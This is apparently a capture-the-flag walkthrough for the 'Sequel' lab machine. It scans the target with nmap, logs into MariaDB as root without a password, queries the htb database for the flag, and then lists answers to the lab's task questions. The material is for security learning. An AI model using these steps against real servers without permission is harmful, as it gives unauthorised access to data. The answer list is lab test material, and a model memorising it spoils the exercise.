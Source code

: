 # Sequel      

![Sequel](./Screenshots/sequellogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

![nmap](./Screenshots/sequelnmap.png)

3306/tcp is open. Service is `MySQL`.

### MySQL

Type:

```
mysql -h {target ip} -u root
```
The `-h` flag stands for "host". It is used to specify the IP address or hostname of the MySQL server you want to connect to.

The `-u` flag stands for "user". It is used to specify the username you want to log in as to the MySQL server. 

In this case, we tried with `root` and it worked.

![MySQL](./Screenshots/sequelmysql.png)

Because it is `MySQL`, having knowledge of `SQL` allows you to move freely around the database. 

If you need more commands, just Google it or use an AI tool. However, to solve this challenge, you'll only need to follow my instructions.

### Get the flag

Since in, type:

```
SHOW DATABASES;
```

```
USE htb;
```

![MySQL](./Screenshots/sequelmysql2.png)

```
SHOW TABLES;
```

![MySQL](./Screenshots/sequelmysql3.png)

```
SELECT * FROM config;
```

![MySQL](./Screenshots/sequelmysql4.png)

Flag is there.

### Paste the flag

![pwned](./Screenshots/sequelpwned.png)

## Answers

### Task-1: During our scan, which port do we find serving MySQL?

3306

### Task-2: What community-developed MySQL version is the target running?

MariaDB

### Task-3: When using the MySQL command line client, what switch do we need to use in order to specify a login username?

-u

### Task-4: Which username allows us to log into this MariaDB instance without providing a password?

root

### Task-5: In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?

`*`

### Task-6: In SQL, what symbol do we need to end each query with?

;

### Task-7: There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?

htb

### Submit root flag

Congrats.